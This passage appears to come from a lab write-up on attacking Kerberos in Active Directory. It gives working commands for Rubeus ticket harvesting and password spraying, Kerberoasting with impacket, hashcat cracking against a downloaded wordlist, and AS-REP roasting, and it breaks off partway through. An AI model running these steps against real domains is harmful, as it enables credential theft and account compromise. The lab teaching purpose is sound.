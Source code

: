     Rubeus.exe harvest /interval:30

### Password spraying

Before password spraying with Rubeus, add the domain controller domain name to the **windows** host file. 
Add the IP and domain name to the hosts file from the machine: 

    echo <MACHINE_IP> CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

navigate to the directory Rubeus is in:

    cd Downloads

Password spraying (with a given password and "spray" it against all found users then give the .kirbi TGT for that user):

    Rubeus.exe brute /password:Password1 /noticket

Success! Machine1.

## Kerberoasting

If the service has a registered SPN then it can be Kerberoastable:

    Rubeus.exe kerberoast

Roast with impacket:

    cd /opt/impacket/examples
    sudo python GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <Machine_IP> -request

The result is 2 service account with their hashes. Save both in separate files (sql-roast.txt and 
http-roast.txt), and crack with hashcat using the provided Pass.txt.

    wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
    hashcat -m 13100 -a 0 http-roast.txt Pass.txt
    hashcat -m 13100 -a 0 sql-roast.txt Pass.txt

## AS-REP Roasting

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Rubeus is:

    cd Downloads
    dir

Roast:

    Rubeus.exe asreproast

Two AS-REP hashes. One for Admin2 and one for user3. And this is where it gets tricky. I was stuck 
here for a full day.

Copy the hashes separately into file on the linux machine (user3.txt and admin2.txt):
